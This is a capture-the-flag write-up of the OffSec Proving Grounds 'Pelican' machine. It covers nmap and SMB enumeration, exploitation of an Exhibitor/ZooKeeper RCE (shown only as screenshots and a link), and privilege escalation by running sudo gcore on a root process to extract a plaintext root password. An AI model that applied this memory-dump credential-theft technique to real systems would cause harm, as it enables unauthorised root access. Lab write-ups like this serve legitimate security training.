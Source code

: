 ```yaml
---
title: CTF Writeup - Offsec PG Pelican
date: 2023-10-02  
author: kei5uke
description: Writeup for PG Pelican 
tags:
  - linux
  - writeup
---
```


# Pelican

# **Enumeration with Nmap**

```bash
┌──(root💀kali)-[~/perican]
└─# nmap -p- -sC -sV 192.168.246.98 -T4 -oN nmap.out
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-02 01:05 EEST
Warning: 192.168.246.98 giving up on port because retransmission cap hit (6).
Stats: 0:09:51 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 01:15 (0:00:02 remaining)
Nmap scan report for 192.168.246.98
Host is up (0.047s latency).
Not shown: 65495 closed tcp ports (reset), 31 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  Eetbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.246.98:8080/exhibitor/v1/ui/index.html
41665/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-10-01T22:15:28
|_  start_date: N/A
|_clock-skew: mean: 1h20m01s, deviation: 2h18m35s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2023-10-01T18:15:31-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 600.31 seconds
```

# Enumerate SMB

```bash
┌──(root💀kali)-[~]
└─# smbclient \\\\192.168.246.98\\IPC$                                                                                   1 ⨯
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
```

No interesting findings in SMB.


# Enumerate HTTP (8080)

![Screenshot 2023-10-02 at 01.26.03.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_01.26.03.png)

# Exploit the Service

I searched for an exploit for Exhibitor for Zookeeper and found an interesting note.

[Exhibitor Web UI 1.7.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48654)

![Screenshot 2023-10-02 at 02.19.01.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.19.01.png)

I added the necessary part in the java.env script and committed the setting.

![Screenshot 2023-10-02 at 02.19.21.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.19.21.png)

# Low Privilege Shell

![Screenshot 2023-10-02 at 02.34.36.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.34.36.png)

I successfully got the shell.

# Privilege Escalation

```bash
charles@pelican:/opt/zookeeper$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

The command `/usr/bin/gcore` is allowed to run as root apparently.

[gcore - GTFOBins](https://gtfobins.github.io/gtfobins/gcore/)

The gcore command generates a core file (dump file) of a running process. It can be used to retrieve sensitive information if the process is run by root.  
It can be a way to retrieve sensitive information if the process is run by root.

```bash
root       527  0.0  0.0   2276    72 ?        Ss   18:02   0:00 /usr/bin/password-store
```
I found an interesting process:

```bash
sudo /usr/bin/gcore 527
```
I got the dump.

```bash
charles@pelican:~$ strings core.527
strings core.527
CORE
password-store
/usr/bin/password-store 
CORE
CORE
/usr/bin/passwor
////////////////
LINUX
...
```
I analyzed the strings.

```bash
001 Password: root:
ClogKingpinInning731
```
I found interesting text. It could be root password.

![Screenshot 2023-10-02 at 02.45.22.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.45.22.png)

`sudo su root -p`  and paste the password and got the root shell.

# Note
After taking a break from the Linux CTF challenges, diving into this one brought back the familiar excitement of the challenge. It took some effort to track down a shell. But it turned out that the vulnerability had been hiding in plain sight on the web page all along.  
In the enumeration stage, I missed some important information because the version of the vulnerability didn't seem to match. This remined me to stay vigilant and pay attention to every detail.  

